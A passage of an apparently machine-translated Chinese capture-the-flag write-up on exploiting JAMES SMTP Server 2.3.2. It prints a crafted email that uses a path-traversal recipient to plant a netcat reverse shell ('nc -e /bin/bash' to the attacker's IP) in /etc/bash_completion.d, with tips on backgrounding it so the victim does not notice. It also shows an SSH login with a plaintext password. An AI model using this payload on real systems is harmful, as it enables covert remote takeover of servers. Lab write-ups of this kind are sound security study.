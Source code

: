 
这一切似乎都很肤浅，例如ID或发件人地址，直到最后一个差异，看起来根本没有不同。我把它们都打开，看看是否少了什么，还有一个微妙的区别：`vi`

脚本

手动

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20200429231545372.png) 

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20200429233306700.png) 

在我的手动交互中，在有效负载之后和之后有额外的回车符（打印为 ）。我不太清楚为什么会造成如此大的差异，但是在vi中删除两者（将光标放在角色上并推动）使它起作用。我可以通过运行来测试它。`\r``^M``vi``'``^M``x``bash 4D61696C313538383231373333333237352D37.Repository.FileStreamStore`

### 更好的用户体验

这让我有点烦恼，当我连接SSH时，SSH外壳就在我处理我的外壳时挂起了。我想看看我是否可以启动一个不会破坏用户SSH连接的有效负载。在真实情况下，我不想破坏用户体验并引起人们对自己的注意。`nc`

最好的方法是使用有效载荷。我发现，如果我添加尾随 ，它将在后台启动该过程并允许触发过程继续。电子邮件如下所示：`nc -e``&`

    Return-Path: <'0xdf@10.10.14.47>^M
    Message-ID: <8915397.8.1588217962318.JavaMail.root@solidstate>^M
    MIME-Version: 1.0^M
    Content-Type: text/plain; charset=us-ascii^M
    Content-Transfer-Encoding: 7bit^M
    Delivered-To: ../../../../../../../../etc/bash_completion.d@localhost^M
    Received: from 10.10.14.47 ([10.10.14.47])^M
              by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 252^M
              for <../../../../../../../../etc/bash_completion.d@localhost>;^M
              Wed, 29 Apr 2020 23:39:07 -0400 (EDT)^M
    Date: Wed, 29 Apr 2020 23:39:07 -0400 (EDT)^M
    FROM: 0xdf@10.10.14.47^M
    ^M
    '^M
    /bin/nc -e /bin/bash 10.10.14.47 443 &^M
    

mindy的SSH会话有一些额外的垃圾文本，但提示会立即生效：

    root@kali# sshpass -p 'P@55W0rd1!2@' ssh mindy@10.10.10.51
    Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686
    
    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Wed Apr 29 22:44:26 2020 from 10.10.14.47
    -rbash: $'\254\355\005sr\036org.apache.james.core.MailImpl\304x\r\345\274\317ݬ\003': command not found
    -rbash: L: command not found
    -rbash: attributestLjava/util/HashMap: No such file or directory
    -rbash: L
             errorMessagetLjava/lang/String: No such file or directory
    -rbash: L
             lastUpdatedtLjava/util/Date: No such file or directory
    -rbash: Lmessaget!Ljavax/mail/internet/MimeMessage: No such file or directory
    -rbash: $'L\004nameq~\002L': command not found
    -rbash: recipientstLjava/util/Collection: No such file or directory
    -rbash: L: command not found
    -rbash: $'remoteAddrq~\002L': command not found
    -rbash: remoteHostq~LsendertLorg/apache/mailet/MailAddress: No such file or directory
    -rbash: $'\221\222\204m\307{\244\002\003I\003posL\004hostq~\002L\004userq~\002xp': command not found
    -rbash: $'L\005stateq~\002xpsr\035org.apache.mailet.MailAddress': command not found
    -rbash: 0xdf@10.10.14.47>
    Message-ID: <8915397.8.1588217962318.JavaMail.root@solidstate>